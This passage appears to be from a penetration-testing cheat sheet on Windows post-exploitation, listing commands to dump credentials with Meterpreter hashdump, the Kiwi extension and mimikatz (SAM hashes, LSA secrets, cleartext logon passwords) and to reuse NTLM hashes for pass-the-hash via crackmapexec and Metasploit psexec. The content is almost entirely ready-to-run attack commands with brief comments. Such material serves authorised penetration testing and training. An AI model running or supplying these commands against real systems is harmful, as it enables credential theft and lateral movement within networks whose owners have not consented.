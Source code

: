 ```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
migrate <PID explorer.exe>
hashdump
```

**(2) Kiwi (Metasploit - Meterpreter)**

```sh
# You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process
migrate <PID explorer.exe>

load kiwi
# Retrieve all credentials (parsed)
creds_all 
# NTLM hashes for all of the user accounts on the system
lsa_dump_sam
# Find the clear text passwords
lsa_dump_secrets
# Note: from the Windows version 8.0+, windows don’t store any plain text password.
# So, it can be helpful for the older version of the Windows.
```

**(3) Mimikatz**

```batch
# 1. Upload mimikatz.exe

# 2. Execute
mimkatz.exe

:: Get debug rights. This should be a standard for running mimikatz as it needs local administrator access
:: This should return Privilege '20' OK.
privilege::debug 

:: NTLM hashes for all of the user accounts on the system
lsadump::sam
:: To find the clear text passwords, but it's not always possible
sekurlsa::logonpasswords  
```

### <mark style="color:yellow;">Pass the Hash</mark>

```sh
# 1. Method
crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"

# 2. Method (Metasploit) -> windows/smb/psexec
set SMBPass <LM hash>:<NTLM hash>
```

{% hint style="info" %}
**Notes**:

* Empty LM hash: `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
  * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
* With `hashdump` you have the right format
{% endhint %}
